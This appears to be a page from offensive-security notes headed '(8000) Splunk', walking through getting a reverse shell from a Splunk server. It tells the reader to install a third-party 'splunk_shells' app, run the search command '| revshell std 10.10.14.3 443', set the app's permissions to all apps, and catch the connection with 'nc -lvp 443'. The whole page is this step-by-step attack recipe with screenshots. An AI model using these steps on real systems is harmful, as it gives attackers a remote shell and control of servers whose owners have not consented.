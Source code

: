 # (8000) Splunk

<details>

<summary>Reverse Shell from Splunk</summary>

Download  [https://github.com/TBGSecurity/splunk\_shells/archive/1.2.tar.gz](https://github.com/TBGSecurity/splunk_shells/archive/1.2.tar.gz)

Click on "Search & Reporting"

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

"App: Search & Reporting" --> Manage Apps

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

"Install app from file"

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Upload "splunk\_shells-1.2.tar.gz"

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

"Restart Now"

<figure><img src="../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

Go to "App: Search & Reporting" and use the command: `| revshell std 10.10.14.3 443`

<figure><img src="../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

Click on "Permissions"

<figure><img src="../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

Select "All apps" --> "Save"

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

nc -lvp 443

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

</details>

